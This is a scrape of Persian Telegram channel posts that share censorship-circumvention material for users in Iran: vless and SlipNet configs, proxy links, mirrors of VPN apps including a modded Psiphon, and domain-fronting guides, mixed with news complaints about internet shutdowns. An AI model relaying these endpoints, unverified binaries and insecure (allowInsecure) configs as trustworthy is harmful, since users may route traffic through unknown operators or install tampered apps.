⚪️WireGuard [ v 1.0.20 ] : https://punkpaste.ir/f/WireGuard-v-1-0-20-S-cgpl7v

⚪️WhiteDNS [ v 1.1.0 ] : https://punkpaste.ir/f/WhiteDNS-v-1-1-0-Spo-g4qjr3

⚪️Every Proxy [ v 12.7 ] : https://punkpaste.ir/f/Every-Proxy-v-12-7-S-tdo2i4

⚪️NetShare [ v 2.5.50 ] : https://punkpaste.ir/f/NetShare-v-2-5-50-Sp-a4lg91

🔴خیلی مهم : حتما لینک رو کپی کنید و در مرورگر Chrome جایگذاری کنید و دانلود کنید ؛ لینک ها با همه ی اینترنت ها بدونِ نیاز به وی پی ان کار می‌کنند .

+ اعتبارِ لینک هایِ دانلود : 24 ساعت [ لینک ها آپدیت می شود . ]

🆔 @Spotify_Porteghali 🍊

↰  بزرگترین خانواده اسپاتیفای در کشور  ↱

## Spotify_Porteghali — post 12340

💠 @Spotify_Porteghali.npvt

## Spotify_Porteghali — post 12339

  <a href="https://t.me/Spotify_Porteghali/12339" target="_blank">📎 Download file</a>

💬  کانفیگِ اختصاصیِ جدید و پر سرعت برایِ برنامه‌ی NapsternetV برای اینترنت ملی  
💬

اینترنت : شاتل 
🛜

⭐️ Provider : @Spotify_Porteghali

| نحوه اتصال و استفاده از کانفیگ هایِ NapsternetV |

| دانلودِ فایلِ همین کانفیگ با لینکِ مستقیم |

• برایِ دانلود اپلیکیشنِ NapsternetV اینجا کلیک کنید •

🆔 @Spotify_Porteghali 🍊

↰  بزرگترین خانواده اسپاتیفای در کشور  ↱

## Spotify_Porteghali — post 12338

- کانفیگِ جدید برایِ SlipNet -
تست شده با 
🛜 همراه اول ( حتما با بقیه ی اینترنت ها چک کنید )

slipnet-enc://AcTbbwIlA4BLaSghcNa6ZJVOO0kxaA6LMvmUxLHGq+qumLln4sK9Wu17yfSjsPsF3Z8F1G9jCDNl+r9PDEfkRVqgyufO6soiusl1canSGjm31w0gjmVSz71l531+3LPVX5CDRGPvslVcDh2MbmTLdaFVFqSqwrqBWLdHpq0FQdq8OqzJ+A9Nsh4lPw3q3PLUDQsUAscv0912V9LVKkzSL6TS9oWHgKCCRWQsFWeQib/4PLCQdYl0eYDiF83fY+LdXrX+bGEUZYni3s9/8eXcyePYZC82Vbg1TodHp9OzT1mvAlw4FZwaF7R3YCX1jvlXk0zJ10ZJOghNUnYU+lLoPkfxAz6i71PwwkCrkGLaksputejTMQXFVhUOUU54XLaIqfv3PPUf0mnwg6bTUlfqhfKdD2/H8UvZma/brYMMevSUTXl8ylkkdd4QKAXQDgLvztxHVpLTCWlUOfq+EiCCPSJsqwrscztLjZdIwryanmVl3HiAQjQHyOvTEEf9ozIoMDzcu7reAOR8eo/SmHBC8Ve32F27LQ0J79yUVteYCwiBCsXWFVSUs5LmnnXvufywzObXKNDnFvgoO9OBgN0ZdMtWTzU50aKUaiyEO42MxL87thYhGx5C69bnIJ9XDkcUzZoaQARL09X104Vc5mDhjbEDn7J3uysaqCMVdDihGS/gZ8FFm1jZMKB5XVRVeaCdHocdqbGSj3EvqLS+XC7ImJBJs0S7kVdQPn6ksPb5AuyKIKrfZSn8jRzXlVNn3cen7W3IShQptHlNTSwCsKTR0r8aKnI=

💬 لینکِ دانلودِ مستقیمِ بدونِ فیلترِ اپلیکیشنِ SlipNet 
💬

💬 تنظیماتِ پیشنهادی برایِ SlipNet 
💬

⚪️حتما از تنظیمات VPN MTU رو رویِ 512 بگذارید و تنظیمات رو ذخیره کنید .

⚪️زمانی که کانفیگ رو ادد کردید قبل از اتصال رویِ علامتِ مداد کنارِ کانفیگ بزنید و DNS Query Size رو هم یکبار رویِ 50 بزارید و تست کنید و هم یکبار 60 بزارید و متصل بشید .

⚪️حتما از تنظیمات گزینه‌ ی Proxy-only Mode رو‌ فعال کنید . بعد از اینکه کانفیگ متصل شد ، به یکی از پروکسی هایِ زیر در تلگرام متصل شَوید .

🔗 : https://t.me/socks?server=127.0.0.1&port=10880

🔗 : https://t.me/socks?server=0.0.0.0&port=10880

🆔 @Spotify_Porteghali 🍊

↰  بزرگترین خانواده اسپاتیفای در کشور  ↱

## Spotify_Porteghali — post 12337

💬 یه لیست از پروکسی هایی که با وی پی ان می‌تونید بهشون متصل بشید و اتصال‌تون رو قوی‌تر کنید 
💬 
⚪️پروکسیِ همراه اول 
🛜 
⚪️پروکسیِ همراه اول 
🛜 
⚪️پروکسیِ همراه اول 
🛜 
⚪️پروکسیِ ایرانسل 
🛜 
⚪️پروکسیِ ایرانسل 
🛜 
⚪️پروکسیِ ایرانسل 
🛜 
⚪️ پروکسیِ مخابرات ( WiFi ) 
🛜 
⚪️…

## Spotify_Porteghali — post 12336

💬 یه لیست از پروکسی هایی که با وی پی ان می‌تونید بهشون متصل بشید و اتصال‌تون رو قوی‌تر کنید 
💬

⚪️پروکسیِ همراه اول 
🛜

⚪️پروکسیِ همراه اول 
🛜

⚪️پروکسیِ همراه اول 
🛜

⚪️پروکسیِ ایرانسل 
🛜

⚪️پروکسیِ ایرانسل 
🛜

⚪️پروکسیِ ایرانسل 
🛜

⚪️ پروکسیِ مخابرات ( WiFi ) 
🛜

⚪️ پروکسیِ مخابرات ( WiFi ) 
🛜

⚪️ پروکسیِ مخابرات ( WiFi ) 
🛜

🟠 توجه کنید که بدونِ وی پی ان امکانِ اتصال به این پروکسی ها فراهم نیست و اگر که کانفیگ و وی پی انتون‌ سرعتِ پایینی داره ، میتونید همراهش به این پروکسی ها متصل بشید .

🆔 @Spotify_Porteghali 🍊

↰  بزرگترین خانواده اسپاتیفای در کشور  ↱

## Spotify_Porteghali — post 12335

💬 لینکِ دانلودِ مستقیمِ داخلی ( بدونِ فیلتر ) وی پی ان ها و کلاینت هایِ اندروید که این چند روز کارآمد و متصل بودند 
💬 
⚪️Psiphon [ v 453 ] : https://uploadgirl.ir/d/502a55af-fc06-41ff-963c-957ebabd35fe 
⚪️Psiphon ( Mod ) [ v 460 ] : https://uploadgirl.ir/d/9b82d018…

## Spotify_Porteghali — post 12334

💬 لینکِ دانلودِ مستقیمِ داخلی ( بدونِ فیلتر ) وی پی ان ها و کلاینت هایِ اندروید که این چند روز کارآمد و متصل بودند 
💬

⚪️Psiphon [ v 453 ] : https://uploadgirl.ir/d/502a55af-fc06-41ff-963c-957ebabd35fe

⚪️Psiphon ( Mod ) [ v 460 ] : https://uploadgirl.ir/d/9b82d018-ae0f-49e0-b8fe-7f596863dbb2

⚪️V2RayNG [ v 2.1.1 ] : https://uploadgirl.ir/d/56b38461-84e5-47ab-b185-98b518aa656f

⚪️V2RayN ( Windows ) [ v 7.20.4 ] : https://uploadgirl.ir/d/8e0978cc-6758-4e9e-86bb-9c4deb81c491

⚪️NapsternetV [ v 123.1 ] : https://uploadgirl.ir/d/4a6af360-886e-4d07-9b09-2771f435ec93

⚪️SlipNet [ v 2.5.3 ] : https://uploadgirl.ir/d/bf3c07b5-b9e5-4a33-a974-5d0e47410d6a

⚪️SlipStream ( Windows ) : https://uploadgirl.ir/d/504c3576-13b7-440d-8e57-6a4b17dcbc1e

⚪️V2Box [ v 5.0.3 ] : https://uploadgirl.ir/d/fc304b92-2edc-413a-b1e7-89cf8324107f

⚪️Happ [ v 3.18.1 ] : https://uploadgirl.ir/d/3446520a-38ce-4a73-ba63-7630dccc7f05

⚪️OpenVPN  [ v 3.3.0 ] : https://uploadgirl.ir/d/bf7b3235-cc18-4fff-9c2d-7d5e20bc9afc

⚪️HTTP Injector [ v 6.5.0 ] : https://uploadgirl.ir/d/df3216a1-0bfa-4d22-bd9f-747cabcdac55

⚪️NetMod [ v 3.2.8 ] : https://uploadgirl.ir/d/9478b91b-6e5b-454c-9b3c-aa0c8db2bc70

⚪️AM Tunnel Pro [ v 28.0 ] : https://uploadgirl.ir/d/504745e4-80aa-421b-bf66-e8f6836c8e56

⚪️MasterDNS [ v 1.0.5 ] : https://uploadgirl.ir/d/6bfce65c-ee84-4ed5-8414-336e5eaedf7b

⚪️WireGuard [ v 1.0.20 ] : https://uploadgirl.ir/d/a2c113b0-b623-4b52-8f27-79fabdd7efd4

⚪️WhiteDNS [ v 1.0.0 ] : https://uploadgirl.ir/d/96b204e0-78af-4511-97db-488df0021c13

⚪️Every Proxy [ v 12.7 ] : https://uploadgirl.ir/d/7c1ed4e1-f9d2-4ee9-922a-9f27ea5ed804

⚪️NetShare [ v 2.5.50 ] : https://uploadgirl.ir/d/5edfeafb-d946-4dab-bc97-7a21ebafef33

🔴خیلی مهم : حتما لینک رو کپی کنید و در مرورگر Chrome جایگذاری کنید و دانلود کنید ؛ لینک ها با همه ی اینترنت ها بدونِ نیاز به وی پی ان کار می‌کنند .

+ اعتبارِ لینک هایِ دانلود : 24 ساعت [ لینک ها آپدیت می شود . ]

🆔 @Spotify_Porteghali 🍊

↰  بزرگترین خانواده اسپاتیفای در کشور  ↱

## Spotify_Porteghali — post 12333

💬 آپدیتِ جدیدِ تلگرام 
🌐 [ ورژن : 12.7.2 ] 
💬 - لینک هایِ دانلودِ داخلی ( بدونِ فیلتر ) : 
⚪️Telegram ( Store ) [ v 12.7.2 ] : https://uploadgirl.ir/d/0d3c45e2-eb0d-476c-a4a5-7ece7ffe4452 
⚪️Telegram ( Direct ) [ v 12.7.2 ] : https://uploadgirl.ir/d/8fb04c61…

## King_network7 — post 30746

‏
💢تلگرام در عراق رفع فیلتر شد، اینترنت 5G در افغانستان فعال شد و ویزا و مسترکارت پس از ۱۵ سال به سوریه بازگشتند.

ما هم ۲ و نیم ماهه نت نداریم
➰➰➰➰➰
#️⃣ #news
🆔 @King_Network7

## King_network7 — post 30745

  <a href="https://t.me/King_network7/30745" target="_blank">📎 Download file</a>

👨🏿‍🦯
#music

## King_network7 — post 30744

  

🔰 دریافت اشتراک 1 ماهه Super Duolingo
❓ سایت و برنامه آموزش زبان انگلیسی، آلمانی، ژاپنی و....

☑️ آموزش دریافت:
● ابتدا وارد این لینک شوید و در باکس promo code کد زیر را وارد کنید.

🔑 Redeem Code:

DUOBNB2026

● در صفحه بعدی اطلاعات خواسته شده رو وارد کنید و یک اکانت ایجاد کنید (پلن 1 ماهه به صورت خودکار فعال میشه)

⚠️ اگر از قبل اکانت دارید لاگین کنید سپس وارد لینک شوید و کد رو وارد کنید تا پلن برای اکانتتون فعال بشه

➰➰➰➰➰
#️⃣ #free #premium
🆔 @King_Network7

## King_network7 — post 30743

## King_network7 — post 30742

  <a href="https://t.me/King_network7/30742" target="_blank">📎 Download file</a>

◾️برنامه استفاده شده در آموزش بالا

⬇️ لینک دانلود داخلی
⬇️ لینک گیت هاب

🆔 @King_Network7

## King_network7 — post 30741

🔰 آموزش تبدیل لینک خارجی به لینک داخلی با متود گیت هاب

◾️ امکانات و محدودیت ها:
● هر مخزن +10 گیگ فضا برای اپلود دارد
● با هر توکن میتوان چند مخزن ایجاد کرد
● قابلیت مالتی توکن (برای استفاده از توکن چند اکانت)

⬇️ لینک دانلود داخلی آموزش

❗️از اکانت اصلی استفاده نکنید و اکانت جدید ایجاد کنید

➰➰➰➰➰
#️⃣ #windows
🆔 @King_Network7

## King_network7 — post 30740

  <a href="telegram/content/King_network7_30740_1778607696.mp4" target="_blank">🎬 Download video</a>

ChatGPT 5.5 
🔥
چت چی پی تی 5.5 هم معرفی شد

ما هیچ ما ....

➰➰➰➰➰
#️⃣ #news #اینترنت_طبقاتی
🆔 @King_Network7

## King_network7 — post 30739

❌ طبق خبرهای منتشر شده شرکت اسیاتک ورشکست شده و مشتریاش به زیرمجموعه مخابرات اضافه شدن
هنوز رسمی تایید نشده

⁉️بروزرسانی : روابط عمومی شرکت انتقال داده‌های آسیاتک تکذیب کرد.
➰➰➰➰➰
#️⃣ #news #اینترنت_طبقاتی
🆔 @King_Network7

## King_network7 — post 30738

  <a href="https://t.me/King_network7/30738" target="_blank">📎 Download file</a>

◾️در صورتی که نمیتونید وارد سایت script.google.com بشید. میتونید از نسخه گرافیکی MITM Domain Fronting استفاده کنید (فقط کافیه برنامه رو نصب و روی دکمه کانکت کلیک کنید)

⬇️ لینک دانلود داخلی
⬇️ لینک گیت هاب

🆔 @King_Network7

## King_network7 — post 30737

🔰 آموزش استفاده از متود MasterHttpRelayVPN

◾️ این روش برای سرویس های گوگل (یوتیوب، درایو و...) سرعت بیشتری داره ولی داخل تلگرام و سایر برنامه ها هم میتونید استفاده کنید

⬇️ لینک‌ دانلود داخلی برنامه
⬇️ لینک‌ دانلود داخلی آموزش
⬇️ لینک‌ گیت هاب برنامه

❗️به هیچ عنوان اسکریپت رو روی اکانت اصلی گوگلتون اجرا نکنید (ممکنه اکانت مسدود بشه)

➰➰➰➰➰
#️⃣ #vpn #windows
🆔 @King_Network7

## King_network7 — post 30736

وضعیت نت به شدت خراب گوگل هم بسته شد ➰➰➰➰➰ #️⃣ #news #اینترنت_طبقاتی 🆔 @King_Network7

## King_network7 — post 30735

وضعیت نت به شدت خراب
گوگل هم بسته شد

➰➰➰➰➰
#️⃣ #news #اینترنت_طبقاتی
🆔 @King_Network7

## King_network7 — post 30734

‏
💢وقتی حق دیروز را به عنوان «آپشن امروز» می‌فروشند!

بر پایه مصوبه شورای عالی امنیت ملی که رئیس کمیسیون صنایع و معادن مجلس به بخشی از آن در وب سایت جماران اشاره کرده، دسترسی به اینترنت بین‌المللی در ایران عملاً طبقه‌بندی شده پس از ثبت نام و احراز هویت ، به برخی از مشاغل و کسب و کارها نت پرو میدن همین نت پرو علاوه بر قیمت بالا خودش دارای محدودیت های زیادی هست

نت بین الملل برای مردم عادی بیشتر از ۱۲۰۰ ساعته ک قطعه وکلی از کسب و کارها و ... نابود شده
اینترنت بدون سانسور حق همه ی مردم جامعه هستش ن قشر خاصی از جامعه

نظام فیلترینگ هم خیلی سریع روش های جدید رو مسدود می کنه علاوه بر مسدود کردن ، محدودیت هارو بیشتر می کنه
ولی هیچ کشوری تا حالا نتونسته با تکنولوژی و علم مقابله کنه👨🏿‍🦯

➰➰➰➰➰
#️⃣ #news #اینترنت_طبقاتی
🆔 @King_Network7

## King_network7 — post 30733

هوش مصنوعی دیپ هم باز شد Deepseek.com و چقدر بدبختیم ک واسه خاطر باز شدن ی سایت خوشحال میشیم چیزی ک حق همه هستش👨🏿‍🦯 ➰➰➰➰➰ #️⃣ #news 🆔 @King_Network7

## King_network7 — post 30732

💢سایت گوگل روی بعضی از اپراتورها انگار باز شده تست کنید ➰➰➰➰➰ #️⃣ #news 🆔 @King_Network7

## King_network7 — post 30731

💢سایت گوگل روی بعضی از اپراتورها انگار باز شده

تست کنید

➰➰➰➰➰
#️⃣ #news
🆔 @King_Network7

## King_network7 — post 30729

🔰پرامپت افزایش کیفیت تصاویر

عکس خودتون اپلود کنید و پرامپت پایین رو به مدل Ai بدید.
تصاویر بالا با Gemini تبدیل شده است.

Upgrade the uploaded image into a pristine, ultra-high-definition cinematic version while preserving the subject with absolute fidelity. The person's identity, facial anatomy, expression, body posture, clothing, accessories, environment, framing, and overall composition must remain completely unchanged. Do not modify, reinterpret, replace, or introduce any new visual elements. Reconstruct and refine micro-level details including precise facial contours, authentic skin texture with naturally visible pores, individually defined hair strands, sharp and lifelike eyes, and clean, well-resolved edges throughout the image. Enhance dynamic range, contrast, and dimensional depth using balanced, studio-quality cinematic lighting.

➖➖➖➖➖
#ai
@King_Network7

## King_network7 — post 30728

  

💢توییت جدید فیلترشکن Windscribe

در بخش کانکشن گزینه ی censorship رو فعال کنید سپس کانفیگ رو روی ایران تنظیم کنید و روی پروتکل های مختلف تست کنید

امتحان کنید شاید وصل شد👨🏿‍🦯

➰➰➰➰➰
#️⃣ #news
🆔 @King_Network7

## King_network7 — post 30727

🔰کانفیگ متصل تست شده روی ایرانسل، رایتل

vless://06ef598c-1555-4887-b3f9-08214a2f6792@104.17.72.206:443?path=%2F222.167.202.31%3A7443&security=tls&encryption=none&insecure=1&host=2026.hhhhh.eu.org&type=ws&allowInsecure=1&sni=2026.hhhhh.eu.org#moz1%28%40King_Network7%29

vless://cff6f361-828a-43c8-a8b5-8d10b32e57fb@188.114.98.0:443?path=%2F&security=tls&alpn=http%2F1.1&encryption=none&insecure=0&host=zh.hollowspot.ir&type=ws&allowInsecure=0&sni=zh.hollowspot.ir#moz2%28%40King_Network7%29

vless://6202b230-417c-4d8e-b624-0f71afa9c75d@104.18.13.149:8443?path=%2F%3FTelegram%F0%9F%87%A8%F0%9F%87%B3%20%40WangCai2&security=tls&encryption=none&insecure=0&host=sni.111000.dynv6.net&type=ws&allowInsecure=0&sni=sni.111000.dynv6.net#moz3%28%40King_Network7%29

➖➖➖➖➖
#config | #vpn
@King_Network7

## JynMarket — post 2241

🌟 سرور اسلیپ نت جدید slipnet-enc://ATF3eMWSGNIoFEYM5kc/edWPA1fTvga6AXzArjUbqbA0UDJNTLqRvpTIhQLGLt2qqMDP7/Y0MBGP91hWaKyCjDFaDNuMFsFKEIqmPSFFoPS/s+kzjvS9WqpG6ba/MWiIk9hcaD2qdAlen3CrVugw6VhvoOS5Ru8G0x/erkMhODolsS8Wyr+HwwZyP/c+CUMNRUytfay8uJk6C9DpwRjPhnL8N1E5…

## JynMarket — post 2240

  <a href="telegram/content/JynMarket_2240_1778607698.webm" target="_blank">🎬 Download video</a>

🌟 سرور اسلیپ نت جدید slipnet-enc://ATF3eMWSGNIoFEYM5kc/edWPA1fTvga6AXzArjUbqbA0UDJNTLqRvpTIhQLGLt2qqMDP7/Y0MBGP91hWaKyCjDFaDNuMFsFKEIqmPSFFoPS/s+kzjvS9WqpG6ba/MWiIk9hcaD2qdAlen3CrVugw6VhvoOS5Ru8G0x/erkMhODolsS8Wyr+HwwZyP/c+CUMNRUytfay8uJk6C9DpwRjPhnL8N1E5…

## JynMarket — post 2239

  <a href="telegram/content/JynMarket_2239_1778607699.webm" target="_blank">🎬 Download video</a>

🌟 سرور اسلیپ نت جدید slipnet-enc://ATF3eMWSGNIoFEYM5kc/edWPA1fTvga6AXzArjUbqbA0UDJNTLqRvpTIhQLGLt2qqMDP7/Y0MBGP91hWaKyCjDFaDNuMFsFKEIqmPSFFoPS/s+kzjvS9WqpG6ba/MWiIk9hcaD2qdAlen3CrVugw6VhvoOS5Ru8G0x/erkMhODolsS8Wyr+HwwZyP/c+CUMNRUytfay8uJk6C9DpwRjPhnL8N1E5…

## JynMarket — post 2238

🌟 سرور اسلیپ نت جدید

slipnet-enc://ATF3eMWSGNIoFEYM5kc/edWPA1fTvga6AXzArjUbqbA0UDJNTLqRvpTIhQLGLt2qqMDP7/Y0MBGP91hWaKyCjDFaDNuMFsFKEIqmPSFFoPS/s+kzjvS9WqpG6ba/MWiIk9hcaD2qdAlen3CrVugw6VhvoOS5Ru8G0x/erkMhODolsS8Wyr+HwwZyP/c+CUMNRUytfay8uJk6C9DpwRjPhnL8N1E5KQTri3jxeGzybtGzhYJ33GA2c35uVuM+mF3Wjv108wi/8SbvV0F9n0YJoSMXdpdlVGMiNMP4f3JP3fWvWUatYqORL4rnFeqNKb6ayyHHv5kXWKigFOFtS9LYbUS1XCapmcD0Db2+MvgWRhETWed2kGNO9sAgDK/Z8cHju8snWkS6dk9IVDV7YbX5G0AfBNCwLLDxTSsfrO/M99lWxYWeHO2aRZv8Ldn1ZtdeGxRUFnFVb6bdayGCBWSu28okPEtxw9SVVulJS9xXTrsaPGqNaV3o0RGVzfkzUqAnUFTkbKFKgzkc+7h3V8YLV8GOhdaOFxadkfOikxtqSsV/gyCQ1meCGmc02eEtintsedwsOzO2/0MdZpmHBAhb6ysmXlCWumLVzGPdTbcTRp/o217Q3hmRY0S5y1Uq34sQ09g+IupyN0P8vacbz5Kp5KE/s+3e5+5ruLh7RyD6

🔗 اموزش استفاده - دانلود برنامه موردنیاز

## JynMarket — post 2232

تا نگیم ری اکشن نمیزنید؟

## JynMarket — post 2231

🌟 سرور اسلیپ نت جدید slipnet-enc://ATTPUtITebV7i0gVhBsU4vTqBNvNpNGORXr2ByJmyoVa4g0IonJTxxu/5KhY7h8LZU5SxJFUbLzKL1bC3aZ0um0d8x99D92DxSh/g02y7ghdYFec98rDKiVdAoPWLgjGV2xsFdcWO9u7R8tiAodjI5zS9lFaKc1Fw9sCI4UwWHfKXsvUU6VEaj1DsJeKRYClaUuOdhKHhi4+m9aHQIpIAsSWk5R4…

## JynMarket — post 2230

🌟 سرور اسلیپ نت جدید

slipnet-enc://ATTPUtITebV7i0gVhBsU4vTqBNvNpNGORXr2ByJmyoVa4g0IonJTxxu/5KhY7h8LZU5SxJFUbLzKL1bC3aZ0um0d8x99D92DxSh/g02y7ghdYFec98rDKiVdAoPWLgjGV2xsFdcWO9u7R8tiAodjI5zS9lFaKc1Fw9sCI4UwWHfKXsvUU6VEaj1DsJeKRYClaUuOdhKHhi4+m9aHQIpIAsSWk5R4f21feCFN1H5qVHhRXAmO/NC+3y4WdnP+NGleMhsezkl7paLzu24x+EjDPDGbaA0n8sL1v55LQlZ3QUPK7ZC3Ofuv07uLNmKChmc35SHJXopt5AZdLxQ7kSgl0ncmDDOEvYXGu0jA0GqOaQOC+ApY+dlfCUJPqiZg2HOZ6lcqvRlBnyFE+Rt3i3utptO+lP/z/TsQg7pHHI9Bnp4geJnN0SezkRb9deZ309aaIWIvA8HLVI5xHXCFSQqmI4qQ3YYirTNGnvXx7TclsYzpCEF2i4gdKIySC2TAEXMiH6Huy2rqBlWHcRmUqWXrUkLb5JUHuvYidGMBTJvL3PavFUHN1IYkx2y+RDPu0Oc061KmXmQyGP6Oxzn3LWl7rp2P1vhhqcMfZDKhvaI1xfVRfVVc6zz+bGqrQMbxA23/Q5he90H0LgT2612vkemD9hi1Qe+TUPslmb2PVDrDun9PQ9rcTBMxRKSIv3TH3ad4zLiJJqGlieaZsQ/7LL6RE9+NO9yfjjuGrEZ+sT5slidEYWfytTC6idd47HvESK3uO90f91vU2mnfmW0rxMo7dOViBBD0NEbOHJyWYxGfpSlXTxZmTlab

🔗 اموزش استفاده - دانلود برنامه موردنیاز

ادیت:
خیلی ضعیف شده اما همچنان وصله

## JynMarket — post 2229

  <a href="telegram/content/JynMarket_2229_1778607699.webm" target="_blank">🎬 Download video</a>

یه کم ری اکشن بزنید 
💧

## JynMarket — post 2228

از این به بعد سعی میکنم کمتر npv هایی که به زور وصل میشنو بزارم

🖱️ بیشتر اسلیپ نت و برنامه هایی که واسه تلگرام سرعت معقولی دارن

## JynMarket — post 2227

  <a href="https://t.me/JynMarket/2227" target="_blank">📎 Download file</a>

🔗 تک کانفیگ متصل

🔑 Password: @JynMarket

## JynMarket — post 2226

https://t.me/MhsenivxFamilygp

بیاید گپمون کلی ادم انلاینن حرف بزنیم

## JynMarket — post 2225

میتونید برای سرعت بهتر سرور هارو با این لیست «پروکسی» ها ترکیب کنید

## JynMarket — post 2224

  <a href="https://t.me/JynMarket/2224" target="_blank">📎 Download file</a>

🔗 تک کانفیگ متصل

🔑 Password: @JynMarket

## JynMarket — post 2223

https://t.me/proxy?server=94.101.191.94&port=200&secret=6d087d0e01b54d2a50a78047a4a21d80
https://t.me/socks?server=79.143.85.9&port=4044&user=%40v2conf1&pass=%40v2conf1

## JynMarket — post 2221

سرور اسلیپ نت جدید 
⬆️

slipnet-enc://ASkiV3DmsmYKyoL0Cl/lOL0onfMw386I0MMHomg6a+tOoaQ29lT/HrXSnI4VE2jSSm8ZJ7gB0I0VY64VcUZFN3WFGKq25Qn0oCqtmo54QWFCH0OC/PY884S4CS/XJ9FoEm5VNhc+HmW9ZAYBY5z6lUWOs2jkXMRBgOiqrWcLnHZfcUFpCNZ+wagHYK1Um4DLjfoaAlzRPyWN71V416L0g8yXsoNM3eiy3unWjvMCcuw9lv7/+Ve/BHBly3BL5glt//sA4Y57kMBb2g1M/teWSdGYludSe8iYEhRQmj0e2nM2D/ZMbkbwZZeC04h/+dRCXiaLekPhF/xedh+r4H3AtI4cXMHbLEhX55LCwpGniSOv8PgikXNcJD+ZkpeB26QwLFMYhFJE00jLJhwWkLSPYnPl7RJZbvQYZCBew6tTJ6vURrjd6C79XGJ4XdxL7N8WdL8LLPG4pTehiJUk7JFEJPqZA1Qo6N5bkLbPeJfMMaunfVpa2q1fgYS8+jwvtXhcXNn1G0+OEu3QI3X4QGYsMCesC5ZOYhikfNylL3HAV9B8komCvGA87cfYRalawzoDz/wwx9tbPehWd5QHtc07K7Lb92rbZe34E5hMJd5qjR0u3amtYApboso73k6iuaCk+gX+/eu/oXBu09w3OHioFox58zPvWqrEhcdOCV6Y0IvYHSnkm5gxRUMhVXQDFceuV0v7YIbBwrU1MQuZL3X9TC7IkT16QczZAtNr8hYaKSgX+ZCvcxP+GENnxL/HFRPLcTuyz2Q=

## JynMarket — post 2220

  <a href="https://t.me/JynMarket/2220" target="_blank">📎 Download file</a>

🔗 تک کانفیگ متصل

🔑 Password: @JynMarket

## JynMarket — post 2219

  <a href="https://t.me/JynMarket/2219" target="_blank">📎 Download file</a>

🔗 تک کانفیگ متصل

🔑 Password: @JynMarket

## JynMarket — post 2218

  <a href="telegram/content/JynMarket_2218_1778607701.webm" target="_blank">🎬 Download video</a>

مثل اینکه نمیخواید ری اکشن بزنید 
☕️

## JynMarket — post 2217

  <a href="https://t.me/JynMarket/2217" target="_blank">📎 Download file</a>

🔗 تک کانفیگ متصل

🔑 Password: @JynMarket

## JynMarket — post 2216

  <a href="telegram/content/JynMarket_2216_1778607701.webm" target="_blank">🎬 Download video</a>

🟪-@JynMarket²⁷.npvt

## NamazVPN — post 35453

─────────── VLESS ───────────

🔗 vless://799f939b-964b-4416-84ac-18a6ace7fe70@camp.nahidapp.com:443?encryption=none&type=ws&security=tls&path=%2FIF_VPN_Bot&host=camp.nahidapp.com&sni=camp.nahidapp.com&allowInsecure=0#Unknown%20%7C%20%F0%9F%8C%90%20IP%3A%20N%2FA%20%7C%20%E2%8F%B3ping%3A9405.27ms%20%7C%20%F0%9F%93%A2%20%40NamazVPN

📍
⏱️ 9405.27ms

📢 @NamazVPN

## NamazVPN — post 35452

─────────── VLESS ───────────

🔗 vless://f63c1922-6d56-4b49-9b3e-87088472c870@varzesh3.com:80?encryption=none&type=ws&path=%2F&host=sajjad.panivo.ir#Unknown%20%7C%20%F0%9F%8C%90%20IP%3A%20N%2FA%20%7C%20%E2%8F%B3ping%3A7254.9ms%20%7C%20%F0%9F%93%A2%20%40NamazVPN

📍
⏱️ 7254.9ms

📢 @NamazVPN

## NamazVPN — post 35451

─────────── VLESS ───────────

🔗 vless://37373963-6638-4135-b566-376538323163@185.143.232.197:80?security=none&allowInsecure=0&encryption=none&type=ws&host=dl.tgmovie.bond&path=/l/w/aXD2QyDdS6vRQpxs?ed%3D2047#%F0%9F%87%AD%F0%9F%87%BAHungary%20%7C%20%F0%9F%8C%90%20IP%3A%2087.229.100.130%20%7C%20%E2%8F%B3ping%3A6060.98ms%20%7C%20%F0%9F%93%A2%20%40NamazVPN

📍 🇭🇺 Hungary
⏱️ 6060.98ms

📢 @NamazVPN

## NamazVPN — post 35450

─────────── VLESS ───────────

🔗 vless://22a46dbc-39c6-4a16-a3ff-a5f5a59ceb09@188.121.110.15:2507?security=none&encryption=none&headerType=none&type=tcp#%F0%9F%87%A6%F0%9F%87%AAUnited%20Arab%20Emirates%20%7C%20%F0%9F%8C%90%20IP%3A%20130.185.120.149%20%7C%20%E2%8F%B3ping%3A564.64ms%20%7C%20%F0%9F%93%A2%20%40NamazVPN

📍 🇦🇪 United Arab Emirates
⏱️ 564.64ms

📢 @NamazVPN

## NamazVPN — post 35449

─────────── VLESS ───────────

🔗 vless://01a877b6-e458-4e76-a444-38789cee665c@snapp.ir:8080?path=%2F&security=none&encryption=none&host=iran.zebra-license.ir&type=ws#%F0%9F%87%A9%F0%9F%87%AAGermany%2C%20Nuremberg%20%7C%20%F0%9F%8C%90%20IP%3A%2091.107.243.135%20%7C%20%E2%8F%B3ping%3A5000.37ms%20%7C%20%F0%9F%93%A2%20%40NamazVPN

📍 🇩🇪 Germany, Nuremberg
⏱️ 5000.37ms

📢 @NamazVPN

## NamazVPN — post 35448

اینترنت پرو واسم فعال شد
وقتی بستش رو نخریدم پیامی که برام ارسال شد لحنش طوری بود که انگار دیگه خبری از اینترنت نیست
انگار از این به بعد همون فیلترنت سابق رو میخوای باید گیگی ۴۰ بدی
اگه با همین اینترانت هم اوکیی فعلا قیمتش همینه
حالا ۵۰ گیگ واسه یه سال هم که کمه
احتمالا بزودی بسته های ۲۰۰ گیگ تا ۱ ترابایت هم رونمایی میشه با قیمت ده ها میلیون تومن

## NamazVPN — post 35447

─────────── VLESS ───────────

🔗 vless://3df5aa2b-d975-4719-bd88-3fe68284c8d8@snapp.ir:80?encryption=none&security=none&type=ws&path=%2F&host=Erajkhan.softnetconnect.ir#Unknown%20%7C%20%F0%9F%8C%90%20IP%3A%20N%2FA%20%7C%20%E2%8F%B3ping%3A9044.16ms%20%7C%20%F0%9F%93%A2%20%40NamazVPN

📍
⏱️ 9044.16ms

📢 @NamazVPN

## NamazVPN — post 35446

─────────── VLESS ───────────

🔗 vless://238a8c40-8413-4321-aaa8-990c4dcb04c6@185.143.233.122:443?security=tls&type=ws&headerType=&path=%2Fws&host=vip2.tu5pars.ir&sni=vip2.tu5pars.ir&fp=&allowInsecure=1#Unknown%20%7C%20%F0%9F%8C%90%20IP%3A%20N%2FA%20%7C%20%E2%8F%B3ping%3A10077.8ms%20%7C%20%F0%9F%93%A2%20%40NamazVPN

📍
⏱️ 10077.8ms

📢 @NamazVPN

## NamazVPN — post 35445

─────────── VLESS ───────────

